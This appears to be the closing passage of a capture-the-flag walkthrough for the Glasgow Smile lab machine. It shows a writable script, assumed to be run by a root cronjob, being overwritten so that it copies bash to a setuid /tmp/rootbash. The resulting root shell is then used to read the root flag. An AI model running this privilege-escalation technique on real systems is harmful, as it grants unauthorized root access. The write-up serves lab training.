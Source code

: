 	![](images/Pasted%20image%2020220127170316.png)
	- Could not find any way to privilege escalate
3. Assume `.trash_old` is executed by cronjob, replace it to spawn a root shell
	```
	penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ printf '#!/bin/bash\n\ncp /bin/bash /tmp/rootbash && chmod u+s /tmp/rootbash\n' > /home/penguin/SomeoneWhoHidesBehindAMask/.trash_old; chmod 4777  /home/penguin/SomeoneWhoHidesBehindAMask/.trash_old

	penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ ls -l /tmp
	total 1152
	-rwsr-xr-x 1 root root 1168776 Jan 27 03:07 rootbash
	```
4. Obtain root shell
	![](images/Pasted%20image%2020220127170756.png)
5. Root Flag
	```
	rootbash-5.0# cd /root
	rootbash-5.0# ls
	root.txt  whoami
	rootbash-5.0# cat root.txt 
	  ▄████ ██▓   ▄▄▄       ██████  ▄████ ▒█████  █     █░     ██████ ███▄ ▄███▓██▓██▓   ▓█████ 
	 ██▒ ▀█▓██▒  ▒████▄   ▒██    ▒ ██▒ ▀█▒██▒  ██▓█░ █ ░█░   ▒██    ▒▓██▒▀█▀ ██▓██▓██▒   ▓█   ▀ 
	▒██░▄▄▄▒██░  ▒██  ▀█▄ ░ ▓██▄  ▒██░▄▄▄▒██░  ██▒█░ █ ░█    ░ ▓██▄  ▓██    ▓██▒██▒██░   ▒███   
	░▓█  ██▒██░  ░██▄▄▄▄██  ▒   ██░▓█  ██▒██   ██░█░ █ ░█      ▒   ██▒██    ▒██░██▒██░   ▒▓█  ▄ 
	░▒▓███▀░██████▓█   ▓██▒██████▒░▒▓███▀░ ████▓▒░░██▒██▓    ▒██████▒▒██▒   ░██░██░██████░▒████▒
	 ░▒   ▒░ ▒░▓  ▒▒   ▓▒█▒ ▒▓▒ ▒ ░░▒   ▒░ ▒░▒░▒░░ ▓░▒ ▒     ▒ ▒▓▒ ▒ ░ ▒░   ░  ░▓ ░ ▒░▓  ░░ ▒░ ░
	  ░   ░░ ░ ▒  ░▒   ▒▒ ░ ░▒  ░ ░ ░   ░  ░ ▒ ▒░  ▒ ░ ░     ░ ░▒  ░ ░  ░      ░▒ ░ ░ ▒  ░░ ░  ░
	░ ░   ░  ░ ░   ░   ▒  ░  ░  ░ ░ ░   ░░ ░ ░ ▒   ░   ░     ░  ░  ░ ░      ░   ▒ ░ ░ ░     ░   
		  ░    ░  ░    ░  ░     ░       ░    ░ ░     ░             ░        ░   ░     ░  ░  ░  ░



	Congratulations!

	You've got the Glasgow Smile!

	JKR{68028b11a1b7d56c521a90fc18252995}
